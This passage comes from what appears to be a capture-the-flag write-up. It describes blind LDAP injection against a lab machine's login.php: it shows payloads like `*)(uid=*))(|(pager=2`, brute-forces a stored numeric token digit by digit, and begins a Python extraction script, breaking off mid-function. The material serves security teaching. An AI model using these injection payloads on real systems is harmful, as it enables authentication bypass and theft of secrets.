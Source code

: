 ```

HTTP/1.1 200 OK
Date: Fri, 19 Jul 2019 17:58:29 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16
X-Powered-By: PHP/5.4.16
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Length: 2822
Connection: close
Content-Type: text/html; charset=UTF-8

<!doctype html>
<html lang="en">
	---------
	 Removed
	---------
    <div class="col-sm-10">
    Cannot login    </div>
  </div>
	---------
	 Removed
	---------
```
<br> Now we need to know which attribute the token is stored in. We know it's an existing attribute so we just need to choose the right one. I checked [`ldap` attributes](https://docs.bmc.com/docs/fpsc121/ldap-attributes-and-associated-fields-495323340.html) and chose some of them to test (`comment`, `pager` and `info`), the payload will be like this : `*)(uid=*))(|(ATTRIBUTE=*` (instead of the second `uid` attribute we will use the attribute we are testing). We also know that the token is numeric so we can remove `*` and replace it with numeric values from 0 to 9 and monitor the responses (I used burp intruder to do this). So the final payload will be like this : `*)(uid=*))(|(ATTRIBUTE=N`. After some testing this payload with the attribute `pager` and value of 2 : `*)(uid=*))(|(pager=2` resulted in "Cannot login" message. Great so our payload will be `*)(uid=*))(|(pager=2N` and we will bruteforce the second number again until we get "Cannot login". We will keep repeating this until we reach the 81st number, but doing this manually is lame and boring so I wrote a python script.
<br>
<hr>
## Exploitation, Token Extraction
<br> I created 3 functions : 
* <br> `send_payload`  (to send the injection payload and receive the response)
* <br> `check_response` (to check whether the response contains "Cannot login" or not)
* <br> `exploit` : This function creates a list of numbers from 0 to 9, then by looping through that list it creates the payload which is : `%2A%29%28uid%3D%2A%29%29%28%7C%28pager%3D` + token + number + `%2A` (encoded only once because python requests automatically encodes POST data). Then it calls `send_payload` and `check_response`, if `check_response` returned `True` it adds the valid number to the token.

<br>

<br> Then I wrote a `while` loop to keep calling `exploit()` as long as `len(token)` is not 81 
<br>
<br> `extract_token.py` :
```
#!/usr/bin/python3
import requests
import sys

YELLOW = "\033[93m"
GREEN = "\033[32m"

def send_payload(payload):
	post_data = {"inputUsername":payload,"inputOTP":"0000"}
	req = requests.post("http://10.10.10.122/login.php",data=post_data)
```